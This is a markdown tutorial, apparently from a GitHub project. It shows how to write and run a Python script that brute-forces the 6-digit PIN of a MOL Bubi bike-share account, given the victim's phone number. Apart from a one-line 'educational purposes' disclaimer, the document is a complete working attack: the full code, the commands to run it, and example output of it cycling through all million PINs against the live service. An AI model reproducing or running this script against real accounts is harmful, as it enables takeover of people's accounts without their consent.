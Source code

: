 # <p align="center">Using for brute force attacks</p>

*Disclaimer: this guide is for educational purposes only. I do not support black-hat hacking, because it is illegal*

## What are we going to do?

We are going to make an algorithm, that tries to login to a MOL Bubi account with every 6-digit password

## Write the program

First of all, make a new Python script in the cloned folder

```bash
mkdir bubiforce && touch bubiforce/bubiforce.py
```

Then import all the necessary modules in the newly created program/script

```python
import sys # for path manipulation
sys.path.append("../") # add openbubi.py's folder to the current path
import openbubi
import json # for converting openbubi output to dictionary
import itertools # for making an iterable object with all the six-digit numbers
import getpass # for getting input from the user without echoing
```

Then get an input from the user about the phone number of the victim

```python
phoneNumber = getpass.getpass("Please enter a phone number: ")
```

Then make a `for` cycle, that iterates over the list of six-digit numbers (using itertools), and tries every possible password for authenticating

```python
# make an iterable object that contains all six-digit numbers, and iterate through that
for i in itertools.product("0123456789", repeat=6):
  # convert the elements of the current tuple to a string
  currentNum = "".join(i)
  # print currentNum out
  print(currentNum)
  # make a new BubiUser instance with the password `currentNum`
  user = openbubi.BubiUser(phoneNumber, currentNum)
  """
  Really long line, but I'll explain it.
  If there is an error while logging in, MOL Bubi returns an error code like this:

  {
  "server_time": 1635867338,
  "error": {
    "code": 1,
    "message": "A felhasználó nem található, vagy a bejelentkezés nem sikerült.",
    "reference": "61815aca3f4fe"
    }
  }

  There is a JSON object, that contains an error key with a value that contains
  another JSON object with the error code, error message, and reference.
  So, if we want to detect login failure, we need to check if there is a key named "error".
  So we need to:
  1. Convert the output of user.login() to a dictionary
  2. Convert all the keys of this dictionary into a list
  3. Check if the statement 'there is an element in that list called error' is false
  4. If that is false, then we got no errors, and the pin is correct
  """
  if ("error" in list(json.loads(user.info()).keys())) == False: # there is no error
    print(f"Match! The pin is {currentNum}")
    quit() # quit the program
```

The complete code is:

```python
import sys # for path manipulation
sys.path.append("../") # add openbubi.py's folder to the current path
import openbubi
import json # for converting openbubi output to dictionary
import itertools # for making an iterable object with all the six-digit numbers
import getpass # for getting input from the user without echoing

phoneNumber = getpass.getpass("Please enter a phone number: ")

# make an iterable object that contains all six-digit numbers, and iterate through that
for i in itertools.product("0123456789", repeat=6):
  # convert the elements of the current tuple to a string
  currentNum = "".join(i)
  # print currentNum out
  print(currentNum)
  # make a new BubiUser instance with the password `currentNum`
  user = openbubi.BubiUser(phoneNumber, currentNum)
  """
  Really long line, but I'll explain it.
  If there is an error while logging in, MOL Bubi returns an error code like this:

  {
  "server_time": 1635867338,
  "error": {
    "code": 1,
    "message": "A felhasználó nem található, vagy a bejelentkezés nem sikerült.",
    "reference": "61815aca3f4fe"
    }
  }

  There is a JSON object, that contains an error key with a value that contains
  another JSON object with the error code, error message, and reference.
  So, if we want to detect login failure, we need to check if there is a key named "error".
  So we need to:
  1. Convert the output of user.login() to a dictionary
  2. Convert all the keys of this dictionary into a list
  3. Check if the statement 'there is an element in that list called error' is false
  4. If that is false, then we got no errors, and the pin is correct
  """
  if ("error" in list(json.loads(user.info()).keys())) == False: # there is no error
    print(f"Match! The pin is {currentNum}")
    quit() # quit the program
```

## Usage

Go to the program's directory

```bash
cd bubiforce
```

Run the program

```bash
python bubiforce.py
```

Example output:

```
Please enter a phone number:

000000
000001
000002
000003
...
```

## Source code

I uploaded the source code of this program to [GitHub](https://github.com/PiciAkk/OpenBubi/blob/main/bubiforce/bubiforce.py)
